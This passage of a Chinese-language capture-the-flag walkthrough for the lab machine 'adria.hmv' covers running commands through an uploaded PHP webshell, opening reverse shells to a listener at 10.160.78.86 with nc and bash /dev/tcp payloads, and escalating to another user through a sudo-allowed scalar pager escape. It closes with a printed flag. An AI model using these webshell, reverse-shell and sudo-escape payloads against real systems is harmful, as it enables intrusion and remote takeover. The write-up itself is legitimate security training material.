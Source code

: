 ```bash
http://adria.hmv/uploads/muma.phar?hack=whoami
# www-data 
```

尝试反弹shell！

```apl
http://adria.hmv/uploads/muma.phar?hack=nc -e /bin/bash 10.160.78.86 1234
http://adria.hmv/uploads/muma.phar?hack=bash%20-c%20%27exec%20bash%20-i%20&%3E/dev/tcp/10.160.78.86/1234%20%3C&1%27
```

弹过来了，还是那个b样，看来跨不过去了，尝试使用：

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

重新执行：

```bash
sudo -u adriana /usr/bin/scalar
```

```text
usage: scalar [-C <directory>] [-c <key>=<value>] <command> [<options>]                         
                                                                                                
Commands:                                                                                       
        clone
        list
        register
        unregister
        run
        reconfigure
        delete
        help
        version
        diagnose
```

看起来和git一样，尝试提权：https://gtfobins.github.io/gtfobins/git/

![image-20240323160517599](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403231641927.png)

```bash
sudo -u adriana /usr/bin/scalar help 
!/bin/sh
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403231641928.png" alt="image-20240323160830082" style="zoom:50%;" />

先切换至bash，寻找flag：

```bash
bash
cd /home/adriana
cat user.txt
# fbd401c3bff5ec92d1ba6f74a2340f0f
```
